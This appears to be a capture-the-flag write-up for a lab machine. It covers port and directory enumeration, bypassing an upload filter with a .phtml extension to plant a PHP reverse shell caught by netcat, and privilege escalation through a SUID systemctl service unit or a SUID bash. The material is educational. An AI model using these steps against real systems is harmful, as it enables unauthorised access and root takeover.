








## Recon/OSINT

Target IP: 10.10.181.213 (`$IP`)

## Enumeration

### *Nmap Scan*
Enumerate open ports and services on the machine using Nmap.

```console
$ nmap -sV -oN nmap.output $IP
```


### *Feroxbuster Scan*
Enumerate hidden directories and subdomains.

```console
$ feroxbuster -u http://$IP:3333 -o ferox.output
```


Found image upload form under directory `/internal/`

## Exploitation
Image upload form is filtering file extensions preventing us from uploading a potential `.php` exploit file. Using `Burpsuite Repeater` tried different PHP extensions (`.php, .php3, .php4, .php5, .phtml`) to see if the filter is bypassed.

The upload form is susceptible to a `.phtml` extension.





Downloaded reverse PHP shell from [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and renamed the extension to `.phtml`.

Started Netcat listener on port 1234.

```console
$ nc -lvnp 1234
```
Uploaded `shell.phtml` and navigated to `http://$IP:3333/internal/upload/shell.phtml` to get the shell.



Stabilized shell with:
```console
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Pressed `CTRL + Z` to background process and get back to the host machine. Used `stty` command to set terminal line settings and foreground back the target terminal.

```console
$ stty raw -echo; fg
```
Set terminal emulator to xterm.

```console
$ export TERM=xterm
```
Now we can use tab autocomplete and other standard terminal shortcuts.

Found user flag:



## Privilege Escalation
Search for all files on the filesystem with SUID bit set.

```console
$ find / -perm -4000 2>/dev/null
```
OR

```console
$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
SUID bit is set on `/bin/systemctl` which can be exploited to escalate privileges.



From [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid):

```console
$ TF=$(mktemp).service
$ echo '[Service]
>Type=oneshot
>ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
>[Install]
>WantedBy=multi-user.target' > $TF
```
```console
$ ./systemctl link $TF
```
```console
$ ./systemctl enable --now $TF
```


> **<span style="color:red">Alternatively set SUID on /bin/bash and run bash -p to get root: </span>**
`ExecStart=/bin/sh -c "chmod +s /bin/bash"`